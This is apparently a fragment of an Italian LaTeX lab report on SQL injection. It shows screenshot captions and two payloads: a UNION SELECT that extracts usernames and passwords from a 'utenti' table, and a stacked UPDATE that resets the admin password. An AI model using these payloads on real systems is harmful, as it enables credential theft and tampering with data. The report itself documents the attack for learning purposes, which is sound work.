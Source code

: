 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{figure}[H]
\centering
\includegraphics[width=0.5\textwidth]{relazione_sql_injection_immagini/Screenshot_2025-08-26_alle_11.42.31.png}
\caption{Enumerazione delle colonne}
\end{figure}

\subsection*{3.2 Esfiltrazione dati}
\begin{lstlisting}
' UNION SELECT NULL, username || ':' || password, NULL FROM utenti --
\end{lstlisting}

\begin{figure}[H]
\centering
\includegraphics[width=0.45\textwidth]{relazione_sql_injection_immagini/Screenshot_2025-08-26_alle_12.39.31.png}
\caption{Esfiltrazione credenziali}
\end{figure}

\subsection*{3.3 Modifica dati (Integrità)}
\begin{lstlisting}
'; UPDATE utenti SET password='hacked' WHERE username='admin'; --
\end{lstlisting}
\end{document}
